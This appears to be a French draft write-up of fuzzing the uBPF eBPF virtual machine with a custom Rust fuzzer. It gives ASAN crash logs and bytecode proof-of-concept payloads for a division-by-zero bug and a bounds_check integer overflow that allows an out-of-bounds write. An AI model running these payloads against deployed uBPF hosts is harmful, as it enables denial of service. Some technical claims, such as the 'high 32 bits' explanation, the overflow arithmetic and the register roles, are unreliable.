

# Introduction #TODO

Cet article présente une étude de cas exhaustive sur la recherche et l'exploitation de vulnérabilités d'une cible réelle, la librairie uBPF, qui est une implémentation open-source d'une machine virtuelle eBPF. Cette librairie est utilisée par Microsoft dans son projet eBPF-for-Windows.

Dans le cadre de cette étude de cas, un fuzzer sur mesure a été développé en Rust pour la recherche de failles. Bien que la cible soit relativement petite (<3000 LoC), la méthodologie employée pour l'attaquer est la même que pour des cibles de plus grande envergure. 

Les bugs découverts sont représentatifs des vulnérabilités courantes que l'on retrouve dans les programmes écrits en C, tels que l'integer overflow, l'undefined behavior, l'invalid memory access et la division par 0. Le processus d'exploitation de ces vulnérabilités est détaillé dans cet article.

Le fuzzer développé dans le cadre de cette étude est open source et peut être retrouvé sur mon github => ici.

links:
- github
- [Repo uBPF](https://github.com/iovisor/ubpf)
- [Fuzzing Solana (Secretclub)](https://secret.club/2022/05/11/fuzzing-solana.html)

# Reconnaissance
## Machine virtuelle eBPF #Done

La VM eBPF (Extended Berkeley Packet Filter) est une machine virtuelle qui permet l'exécution de programmes de filtrage de paquets personnalisés sur le noyau Linux. Elle a été introduite dans le noyau Linux 3.18 pour offrir une manière flexible et efficace de personnaliser le filtrage des paquets dans les environnements de réseau aujourd'hui sont utilisation et plus large et permet d'executer du code coté kernel sans avoir a compiler de module spécifique.

La nature de la VM eBPF la rend vulnérable aux attaques. Les programmes qui y sont exécutés sont soumis à un processus de vérification appelé "**verifier**" pour s'assurer qu'aucun bug n'est présent dans le code ( boucles infinies, des accès mémoire non autorisés, instructions illégales, ect...). Le **verifier** utilise une approche de vérification basée sur une sémantique pour analyser le comportement du programme et garantir que le code ne contient pas d'erreurs.

Une fois que le code a été vérifié, il est compilé en Just-In-Time (JIT) avant d'être chargé dans la VM eBPF. L'environnement sandboxé assure l'isolation du code en cas d'erreur et empêche toute modification non autorisée du système.

## uBPF #Done

Le projet uBPF est une initiative qui vise à offrir un environnement d'exécution eBPF sous licence libre Apache pouvant être réutilisé dans d'autres projets. Il propose deux modes d'exécution : dans une machine virtuelle (VM) ou en utilisant la compilation JIT suivie de l'exécution du code. 

Ce projet de propose pas de __verifier__, ce qui à plusieurs implications en terme de sécurité: 
- Dans le cas d'une exécution dans la machine virtuelle (VM), les contrôles de sécurité sont effectués en temps réel lors de l'exécution du programme.  
- Dans le cas d'une compilation JIT aucun contrôle de sécurité préalable n'est appliqué. 

Le projet propose sa propre interprétation de la spec officielle (lien), plus concise nous allons nous baser dessus pour la suite du projet.

La VM en elle même est une machine a état de 11 registres de 64 bits + Program Counter (PC):
-   R0 est utilisé pour stocker la valeur de retour d'une fonction appelée.
-   R1 à R5 sont des registres temporaires utilisés pour stocker des données pendant l'exécution d'une fonction.
-   R6 est un registre spécial utilisé pour l'accès à la mémoire et la manipulation des données.
-   R7 est réservé pour les appels système.
-   R8 et R9 sont des registres spéciaux utilisés pour l'accès aux données contextuelles, tels que les descripteurs de fichiers ou les adresses IP.
-   R10 est réservé pour le pointeur de pile.

L'instruction set est volontairement réduit, il comprend les familles d'opération suivantes:
* ALU Instructions
  * 64 bits
  * 32 bits
* Byteswap
* Memory
  * Load
  * Store
* Branch

__Cette librairie est utilisée par Microsoft dans son projet [ebpf-for-windows](https://github.com/microsoft/ebpf-for-windows).__

## Analyse statique #Done

L'analyse débute par une inspection statique du code, dans le répertoire src/vm 3 fichiers intéressants sont identifiés:

- __ubpf_loader.c__, contient une seule fonction **ubpf_load_elf**: 
	- Charge un programme ELF (un format de fichier exécutable binaire utilisé par Linux) dans une VM eBPF. 
	- Elle semble intéressante pour notre analyse, car elle implique de nombreuses opérations sur les pointeurs et la mémoire, ce qui peut potentiellement causer des bugs. 
	- ___Nous lui consacrerons un article dédié.___

- __ubpf_vm.c__, contient l'nsemble des fonctions utilisée par la VM ubpf, entre autres:
		- __ubpf_create__: créé une vm
		- __ubpf_load__: charge du bytecode directement
		- __ubpf_exec__:
		- __ubpf_unload__:

- __ubpf_jit.c__
	- Deux fonctions associées au compiler JIT:
		- __ubpf_translate__:  compile le code en code machine et le stocke dans le buffer passé en argument.
		- __ubpf_compile__: appelle **ubpf_translate** et retourne un pointeur vers un buffer en mémoire alloué via "calloc" contenant le code machine.
- __test.c__ contient un exemple d'utilisation de la librairie pour une exécution dans une VM et JIT.

### Fonctionnement #Done

Après lecture de la documentation et des sources, la librairie propose deux méthodes d'execution pour les programmes eBPF
  - De façon dynamique à l'intérieur d'une VM via __upbf_exec__, le bytecode eBPF n'est pas compilé/traduit en code machine x86 natif.
  - Traduire/Compiler via ubpf_compile et ubpf_translatle code en instruction x86 puis l'executer

Dans les deux cas une une VM doit être créée via __ubpf_create__ elle peut être détruite via __ubpf_destroy__.

Cette VM peut ensuite être utilisée pour charger du bytecode deux options:
  - __ubpf_load__: charge du bytecode directement.
  - __ubpf_load_elf__: charge un ELF, un parser minimal est intégré.

En ce qui concerne le reste du code, on peut noter que :
-   Une même VM peut être utilisée pour plusieurs eBPF, cependant il est nécessaire d'appeler **ubpf_unload** avant de pouvoir exécuter un nouveau programme. Les fonctions externes ne sont pas désenregistrées.
-   La fonction **ubpf_toggle_bounds_check** permet de définir le flag bounds_check à 1, activant ainsi les contrôles de sécurité pour les opérations mémoires lors de l'exécution de la VM (ne fonctionne pas pour la compilation JIT).
-   Pour protéger contre les attaques ROP, les instructions en mémoire peuvent être XORées une nouvelle fois avec une valeur secrète, cette valeur est définie via la fonction **ubpf_set_pointer_secret**.
-   Il est possible d'enregistrer des fonctions externes appelées depuis le code eBPF via la fonction **ubpf_register**.
-   Il est possible d'accéder en lecture et en écriture aux registres d'une VM à l'aide des fonctions **ubpf_set_registers** et **ubpf_get_registers**.

### Mesures de sécurité: #Done

Comme indiqué précédemment le JIT compiler ne présente aucune mesure de sécurité spécifique, cette partie est normalement prise en charge par programme externe appelé verifier.

Par contre lorsque le programme eBPF est exécuté dans une machine virtuelle dynamique, la fonction **bounds_check** est appelée avant chaque accès à la mémoire (opérations de stockage/chargement). Si l'adresse passée à ces fonctions est située en dehors de la zone mémoire du contexte ou de la pile, une erreur est retournée et l'exécution du programme est interrompue.

```C
static bool
bounds_check([...]
{
    if (!vm->bounds_check_enabled)
        return true;
    else if (mem && (addr >= mem && ((char*)addr + size) <= ((char*)mem + mem_len))) {
        /* Context access */
        return true;

    } else if (addr >= stack && ((char*)addr + size) <= ((char*)stack + UBPF_STACK_SIZE)) {
        /* Stack access */
        return true;
    } else {
        return false;
    }
}
```
___bounds_check () ubpf_vm.c___

Il y a un bug classique d'overflow d'entier dans cette fonction. Si vous ne l'avez pas remarqué, ce n'est pas grave, le fuzzer le mettra en évidence.

# Analyse dynamique #Done
Notre prochaine étape consiste à effectuer une analyse dynamique pour identifier d'autres vulnérabilités potentielles. Pour ce faire, nous allons développer un fuzzer sur mesure en Rust pour générer un grand nombre de programmes eBPF et les exécuter dans la machine virtuelle fournie par uBPF. 

Étant donné la simplicité de la cible (moins de 2 000 lignes de code), nous adopterons une approche simple et efficace, sans chercher à maximiser le nombre d'exécutions par seconde ou de la prise en compte de la couverture de code.

## Préparation de la cible #Done
### Harness #Done 

La fonction ubpf_exec sera utilisé comme point d'entrée pour le fuzzer, car elle permet d'exécuter les programmes eBPF. Pourqu'elle  fonctionne correctement, il est nécessaire d'appeler les fonctions dans l'ordre suivant :




Les instructions générées par le fuzzer seront passées en argument de la fonction ubpf_load et exécutées via ubpf_exec. Entre chaque exécution, la VM sera détruite et recréée pour éviter les effets de bord. Nous activerons le flag bounds_check_enabled (configuration par défaut) pour activer les controles de sécurité.

La librairie sera compilée en tant que bibliothèque externe en format .so, et notre fuzzer en Rust appellera directement les fonctions nécessaires.

### Modification et compilation de la bibliothéque #Done

Afin de renforcer la sécurité de notre analyse, nous allons compiler la bibliothéque en activant l'AddressSanitizer (ASAN). Cette technique de détection de bugs à l'exécution permet d'identifier une multitude de vulnérabilités: buffer overflows, les fuites de mémoire, les comportements indéfinis, ect.

ASAN permet également de faire crasher le programme dès qu'une erreur de sécurité est détectée. Cette fonctionnalité est essentielle, car dans une exécution classique, certains accès mémoire non maîtrisés ne provoquent pas nécessairement une erreur de segmentation, passant ainsi inaperçue.

Modifications apportées au Makefile:
```
LDLIBS := -lm -lubsan
CFLAGS += -fsanitize=address,undefined
LDFLAGS += -fsanitize=address,undefined
```

Pour lancer le fuzzer:
```
LD_PRELOAD=/usr/lib/gcc/x86_64-linux-gnu/9/libasan.so ./target/debug/j-fuzzer
```

En théorie, la machine virtuelle est censée détecter les boucles infinies dans le code. Cependant, lors des tests avec le fuzzer, j'ai remarqué que celui-ci se retrouvait bloqué plusieurs fois dans des boucles présentes dans le programme eBPF. Pour éviter cela, la boucle principale d'exécution a été modifiée pour que l'arrêt soit forcé après l'exécution de 100 000 instructions. De cette manière, le fuzzer peut continuer à générer et à tester des programmes sans être bloqué indéfiniment dans une boucle infinie.

```c
---while (1) {

+++for(int i = 0; i < 100000; i++){
```

## Ecriture du Fuzzer  #Done

Le fuzzer est conçu pour être le plus simple possible. La machine virtuelle uBPF est exécutée en appelant directement depuis le programme en Rust les fonctions appropriées dans la bibliothèque /vm/libubpf.so.

### Utiliser une librairie en Rust  #Done 

Afin d'utiliser uBPF depuis notre fuzzer en Rust, la librairie est compilée en tant que bibliothèque partagée (.so) et chargée au moment de l'exécution en utilisant la crate LoadLibrary. Les types de chaque fonction utilisée doivent être redéfinis en Rust.

Définition des prototypes des fonctions appelées en Rust:
```rust
type UbpfVm = c_void;
type UbpfCreateFn = unsafe extern fn() -> *mut UbpfVm;
type UbpfLoadFn = unsafe extern fn(*mut UbpfVm, *const c_char, u32, *mut *const c_char) -> i32;
type UbpfCompileFn = unsafe extern fn(*mut UbpfVm, *mut *const c_char) -> u64;
type UbpfDeleteFn = unsafe extern fn(*mut UbpfVm) -> ();
type UbpfExecFn = unsafe extern fn(*mut UbpfVm, *mut i8, u32, *mut u64) -> i32;
```

Appel des fonctions:
```rust
//import lib
let lib: &'static Library = Box::leak(Box::new(Library::new("../ubpf/vm/libubpf.so").unwrap()));

//import symbol
let ubpf_create_fn: Symbol<'static, UbpfCreateFn> = lib.get(b"ubpf_create").unwrap();

//call symbol
let vm: *mut UbpfVm = ubpf_create_fn();
```

## Générer des inputs valides #Done

Pour trouver de nouvelles instructions eBPF à générer, le fuzzer doit produire des programmes eBPF valides à exécuter dans la machine virtuelle. Pour ce faire, nous nous basons sur les spécifications de la norme RFC.

Les instructions eBPF sont encodées sur 64bits au format suivant: 
* 8 bit opcode
* 4 bit registre de destination (dst)
* 4 bit registre source (src)
* 16 bit offset
* 32 bit immediate (imm)

```
msb                                                        lsb
+------------------------+----------------+----+----+--------+
|immediate               |offset          |src |dst |opcode  |
+------------------------+----------------+----+----+--------+
```
*(Source: https://github.com/iovisor/bpf-docs/blob/master/eBPF.md)

Afin de manipuler ces instructions en Rust, nous avons défini les deux types suivants :
```rust
struct EbpfInstr{
  opcode: u8,
  dst: u8,
  src: u8,
  offset: u16,
  imm: i32
}

struct EbpfBytecode([c_char; 8]);
```

Pour générer une instruction, nous procédons comme suit :
-   Selection d'un opcode de manière aléatoire dans la liste des opcodes existants.
-   Choix aléatoire des registres de destination et source.
-   Choix aléatoire de la valeur immédiate et de l'offset, sauf dans deux cas particuliers :
    -   Pour les instructions "byteswap", nous limitons les valeurs immédiates possibles à 16, 32 ou 64.
    -   Pour les instructions "branch", nous vérifions que la valeur offset additionnée au PC se situe dans la plage d'adresses de mémoire du programme, c'est-à-dire entre 0 et le nombre d'instructions du programme.

Voici à quoi ressemble le code pour générer une instruction :
```rust
fn generate_random_instr (i: i32) -> EbpfInstr{   
	let opcode = OPCODE[rand::thread_rng().gen_range(0..OPCODE.len())];
	let mut offset = 0;
	let mut imm = 0;
	
	if is_branch{
	  offset = rand::thread_rng().gen_range(-i .. (((NBR_INSTR + 1) as i32) - i - 1)) as u16;
	}
	else{
	  offset = rand::thread_rng().gen_range(0..0xFF_FF);
	}
	
	if is_bit_swap{
	  let values = [16, 32, 64];
	  imm = values[rand::thread_rng().gen_range(0..3)];
	}
	else{
	  imm = rand::thread_rng().gen::<i32>();
	}
	
	EbpfInstr{
	  opcode: opcode,
	  dst: rand::thread_rng().gen_range(0..10),
	  src: rand::thread_rng().gen_range(0..10),
	  offset: offset,
	  imm: imm
	}
}
```

## Executer la vm #Done 

Une fois les fonctions chargées dans le programme, la boucle principale du fuzzer est exécutée de la manière suivante :
-   Une nouvelle machine virtuelle eBPF est créée.
-   Un programme comportant un nombre spécifié d'instructions (32 durant les tests) est généré.
-   Le programme est chargé dans la machine virtuelle.
-   Un espace de stockage pour la pile et un pointeur pour stocker la valeur de retour sont alloués.
-   Le programme est exécuté dans la machine virtuelle.
-   La machine virtuelle est détruite.

En cas d'erreur pendant l'exécution de la machine virtuelle, le fuzzer continuera ses tests après avoir affiché le message d'erreur correspondant dans la console.

Si un bug mémoire provoque un crash, le programme sera interrompu par ASAN et un message d'erreur sera renvoyé. Le fuzzer devra alors être relancé pour poursuivre les tests.

Voici à quoi ressemble le code de la boucle principale :
```rust
loop{
	//création VM eBPF
	vm: *mut UbpfVm = ubpf_create_fn();
	
	//génération programme eBPF aléatoire
	let mut bytecode: [EbpfBytecode; NBR_INSTR + 1] = [EbpfBytecode::default(); NBR_INSTR + 1];
	
	for j in 0..NBR_INSTR as i32{
	  let instr = EbpfInstr::generate_random_instr(j);
	  let instr_byte = EbpfBytecode::from(instr);
	  
	  bytecode[j as usize] = instr_byte;
	}
	//ajoute instruction exit en fin de programe
	bytecode[NBR_INSTR] = EbpfBytecode::from(EbpfInstr::new(0x95, 0x00, 0x00, 0x0000, 0x00000000));
	
	//charge le programme dans la vm
	ubpf_load_fn(vm, bytecode.as_ptr() as *const c_char, 8 * (NBR_INSTR + 1) as u32, &mut errmsg_ptr)
	
	//allocation pointeur pour récupérer la valeur de retour
	let ret_val_ptr: *mut u64 = std::mem::MaybeUninit::<u64>::uninit().as_mut_ptr();
	
	//allocation stack
	let mut buffer: Vec<u8> = vec![0; STACK_SIZE];
	let buf_ptr = buffer.as_mut_ptr() as *mut c_char;
	
	//execute le programme
	ubpf_exec_fn(vm, buf_ptr, STACK_SIZE, ret_val_ptr);
	
	//destruction vm
	ubpf_destroy_fn(vm);
	[...]
}
```

Le fuzzer est maintenant fonctionnel. 

Par contre le nombre d'exécutions par seconde est ridiculement bas (4000 exec/s) étant donné que les tests ont été réalisés sur une machine virtuelle WSL peu puissante. 

Il est possible d'améliorer les performances de ce fuzzer trivialement, mais cela ne fera pas partie de cet article.

# Bugs

Deux bugs ont été découverts lors de l'audit de la machine virtuelle eBPF. Le premier est lié à un problème de validation de sécurité qui peut entraîner une division par zéro et donc un comportement indéfini. Le second est un cas d'overflow d'entier dans un contrôle de sécurité, entraînant des lectures ou écritures dans des zones mémoire en dehors de celles allouées pour la VM.

## Undefined behaviour (division by 0) #Done 

### Report
__Crash ASAN__
```rust
ubpf_vm.c:318:68: runtime error: division by zero
AddressSanitizer:DEADLYSIGNAL
=================================================================
==15886==ERROR: AddressSanitizer: FPE on unknown address 0x7fbceed73399 (pc 0x7fbceed73399 bp 0x7ffc7ff74080 sp 0x7ffc7ff73fa0 T0)
    #0 0x7fbceed73398 in ubpf_exec /mnt/c/J/re/fuzz/ubpf/vm/ubpf_vm.c:318
    #1 0x55aebd96414c in j_fuzzer::run_prgm::h35d4b4310f796c6f src/main.rs:337
    #2 0x55aebd964503 in j_fuzzer::main::h7dd45b78eaec2e84 src/main.rs:409
    ...
    #18 0x55aebd95c03d in _start (/mnt/c/J/re/fuzz/j-fuzzer/target/debug/j-fuzzer+0xc03d)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: FPE /mnt/c/J/re/fuzz/ubpf/vm/ubpf_vm.c:318 in ubpf_exec
==15886==ABORTING
```

__Payload__
```c
000=>opcode:0xDC, dst:0x00, src:0x02, offset:0x1018, imm:0x00000040 //be16 dst       => r0 = htobe64(r0)
001=>opcode:0x84, dst:0x09, src:0x03, offset:0xBBF3, imm:0x29559BAB //dst = -dst     => r9 = -r9
002=>opcode:0x3C, dst:0x02, src:0x01, offset:0x1202, imm:0x796ED6EC //div32 dst, src => r2 = r2 / r1
```

### Bug

Le rapport d'ASAN permet de retrouver la partie du code qui est à l'origine de la division par 0 :
```c
static uint32_t u32(uint64_t x) { return x; }
...
case EBPF_OP_DIV_IMM:
	reg[inst.dst] = u32(inst.imm) ? u32(reg[inst.dst]) / u32(inst.imm) : 0; // Ok
	reg[inst.dst] &= UINT32_MAX;
	break;
case EBPF_OP_DIV_REG:
	//instruction à l'origine du crash:
	//   le controle se fait sur la valuer sur les 64bits de reg[inst.src]
	//   alors que la division est faite seulement sur les 32 low bits
	reg[inst.dst] = reg[inst.src] ? u32(reg[inst.dst]) / u32(reg[inst.src]) : 0; 
	reg[inst.dst] &= UINT32_MAX;
	break;
```

Le bug constaté est plutôt simple : théoriquement, avant chaque opération de division par un registre, sa valeur doit être vérifiée pour s'assurer qu'elle est différente de zéro. Si tel est le cas, la division est effectuée. Sinon, la division n'est pas effectuée et l'instruction retourne 0.

Cependant, dans le cas des divisions sur 32 bits, la valeur totale du registre est vérifiée, alors que la division est effectuée uniquement sur les 32 bits high. Cela implique que si le registre a une valeur sur les 32 bits high mais pas sur les low, le contrôle de sécurité passera mais la division sera effectuée sur 0, entraînant ainsi un comportement indéfini.

L'implémentation de la division par une valeur immédiate sur 32 bits est correcte car le contrôle de sécurité est effectué uniquement sur les 32 bits low plutôt que sur l'ensemble des 64 bits.

## Integer overflow in the VM #Done 

Ce bug est particulièrement intéressant car il présente des accès mémoire non maîtrisés, dans certains cas ces vulnérabilités peuvent etre exploités pour executer du code ou provoquer un déni de service du syséme cible.

### Report

__Crash ASAN__
```rust
ubpf_vm.c:1023:52: runtime error: pointer index expression with base 0xfffffffffffffffe overflowed to 0x000000000006
AddressSanitizer:DEADLYSIGNAL
=================================================================
==5323==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 (pc 0x7f186676d9bf bp 0x7ffd41f64fb0 sp 0x7ffd41f64ed0 T0)
==5323==The signal is caused by a READ memory access.
==5323==Hint: address points to the zero page.
    #0 0x7f186676d9be in memcpy /usr/include/x86_64-linux-gnu/bits/string_fortified.h:34
    #1 0x7f186676d9be in ubpf_mem_store /mnt/c/J/re/fuzz/ubpf/vm/ubpf_vm.c:235
    #2 0x7f186676d9be in ubpf_exec /mnt/c/J/re/fuzz/ubpf/vm/ubpf_vm.c:533
    ...
    #20 0x55b4d9509b9d in _start (/mnt/c/J/re/fuzz/j-fuzzer/target/debug/j-fuzzer+0x8b9d)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /usr/include/x86_64-linux-gnu/bits/string_fortified.h:34 in memcpy
==5323==ABORTING
```

__Payload__
```rust
//add32 dst, src      => r3 = r3 + r9
000=> opcode:0x0C, dst:0x03, src:0x09, offset:0xD33A, imm:0xFE3EA1E3

//stdw [dst+off], imm =>*(uint64_t *) (r4 + 0xE062) = 0x991DB628
001=> opcode:0x7A, dst:0x04, src:0x04, offset:0xE062, imm:0x991DB628

//mul32 dst, imm      => r2 = r2 * 0x95458E15
002=> opcode:0x24, dst:0x08, src:0x02, offset:0x0694, imm:0x95458E15

//mul dst, imm        => r5 = r5 * 0xCE5B94D3
003=> opcode:0x27, dst:0x05, src:0x00, offset:0xD418, imm:0xCE5B94D3
```

### Bug

Premier constat: la machine virtuelle plante uniquement quand executée avec ASAN d'activé, dans ce cas la fonction bounds_check ne retourn pas d'erreur lors d'une tentative d'accès mémoire sur une adresse en dehors de l'espace de la VM. L'accès mémoire sur cette même adresse provoque une erreur de segmentation.

Autrement la fonction bounds_check fait correctement sont travail et retoune une erreur lors d'une tentative d'accès à une zone mémoire en dehors de la machine virtuelle.

L'accès mémoire n'est alors pas executé et la machine virtuelle s'arrête avec le message d'erreur suivant:
```rust
uBPF error: out of bounds memory store at PC 1, addr 0xffffffffffffe063, size 8
mem 0x5555555bb730/8092 stack 0x7fffffffd4c0/512
```

C'est l'instruction 0x001 qui en est à l'origine =>  (uint64_t ) (dst + off) = imm => (uint64_t ) (r4 + 0xE062) = 0x991DB628

Nous allons chercher à modifier le payload pour le minimiser et faire en sorte que le bug trigger à chaque execution et pas seulemet quand ASAN est activée.

La premiere fonction à étudier est bounds_check, d'après le messsage d'erreur d'ASAN nous savons qu'elle présente un integer overflow à l'origine de l'accès mémoire non autorisé:

```c
//Appel initial
bounds_check(vm, (char*)reg[inst.src] + inst.offset, size, "load", cur_pc, mem, mem_len, stack)

bounds_check(
    const struct ubpf_vm* vm, 
    void* addr,                //(char*)reg[inst.src] + inst.offset
    int size,                  //size = 8
    const char* type,          //"load"
    uint16_t cur_pc,
    void* mem,
    size_t mem_len,
    void* stack)
{

    if (!vm->bounds_check_enabled)
        return true;
	//integer overflow si addr + size > taille max d'un pointer
    else if (mem && (addr >= mem && ((char*)addr + size) <= ((char*)mem + mem_len))) { 
        /* Context access */
        return true;
	//integer overflow si addr + size > taille max d'un pointer
    } else if (addr >= stack && ((char*)addr + size) <= ((char*)stack + UBPF_STACK_SIZE)) { 
        /* Stack access */
        return true;
    } else {
        vm->error_printf(...);
        return false;
    }
}
```

Cette fonction présente deux integer verflow:
- Le premier bloc de code compare si l'adresse et la taille sont dans les limites du context. Si la somme de l'adresse et de la taille dépasse la limite maximale autorisée d'un pointeur, cela peut entraîner un overflow.

- Le deuxième bloc de code compare si l'adresse et la taille sont dans les limites de la pile. Si la somme de l'adresse et de la taille dépasse la limite maximale autorisée d'un pointeur, cela peut également entraîner un overflow.

Dans le contexte de la fonction, l'adresse (addr) est calculée en ajoutant la valeur du registre source (reg\[inst.src\]) à l'offset (inst.offset). La taille (size) représente le nombre de bytes à lire et est définie par les opérations d'accès mémoire. Il est possible de lire au maximum 8 bytes.

Pour reproduire le bug, il est nécessaire de contrôler la valeur du registre source, mais la taille est déterminée par les opérations d'accès mémoire. Pour déclencher le bug, il faut passer une valeur comprise entre 0xFFFF_FFFF_FFFF_FFFF et 0xFFFF_FFFF_FFFF_FFF8 dans le registre source et exécuter une opération de lecture ou d'écriture de 8 bytes. Ainsi, la fonction bounds_check sera appelée avec comme argument la variable addr valant :

`0xFFFF_FFFF_FFFF_FFFF + 0x8 => 0x1_0000_0000_000_0007`

Cette valeur passera les vérifications de sécurité, mais les accès mémoire se feront sur la valeur du registre source 0xFFFF_FFFF_FFFF_FFFF qui ne fait pas partie du programme.

Ci-dessous, un payload minimisé permettant de reproduire le bug de manière certaine :

```rust
//r[6] = 0
EbpfBytecode::from(EbpfInstr::new(0xb7, 0x0, 0x6, 0x0, 0x0 as u32 as i32)),  
//[r6] = 0xFFFFFFFFFFF
EbpfBytecode::from(EbpfInstr::new(0x17, 0x0, 0x6, 0x0, 0x1 as u32 as i32)),  
//*(*(uint64_t *) (r[6] + off) = imm => 0xFFFFFFF + 0 = 0 <= 
EbpfBytecode::from(EbpfInstr::new(0x7A, 0x0, 0x6, 0x0, 0x0 as u32 as i32)),  
```

Execution:
```rust
000=> [0xB7, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00]
001=> [0x17, 0x06, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00]
002=> [0x7A, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00]
[+]VM addr: 0x608000000020
[+]FN Loaded
AddressSanitizer:DEADLYSIGNAL
=================================================================
==6773==ERROR: AddressSanitizer: SEGV on unknown address 0xffffffffffffffff (pc 0x7f636e1a7d65 bp 0x000000001f9c sp 0x7fffc1b60c50 T0)
==6773==The signal is caused by a WRITE memory access.
    #0 0x7f636e1a7d64 in ubpf_exec /mnt/c/J/re/fuzz/ubpf/vm/ubpf_vm.c:533
    #1 0x558fa1e8b44e in j_fuzzer::run_prgm::h35d4b4310f796c6f src/main.rs:337
	...
    #18 0x558fa1e84b9d in _start (/mnt/c/J/re/fuzz/j-fuzzer/target/debug/j-fuzzer+0x8b9d)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /mnt/c/J/re/fuzz/ubpf/vm/ubpf_vm.c:533 in ubpf_exec
==6773==ABORTING
```

On retrouve bien une tentative d'ecriture sur l'adresses 0xffffffffffffffff comme attendu.

### Exploitation:

Nous somme limité ici par la taille de l'argument size de la fonction bounds_check est qui ne peut pas dépasser 8 bytes. Par conséquent, il n'est possible d'écrire que sur les 8 derniers bytes de la mémoire, ce qui conduit systématiquement à une erreur de segmentation.

Ce type de bug ne peut être exploité que pour des attaques de déni de service et ne permet pas d'exécuter du code à distance.

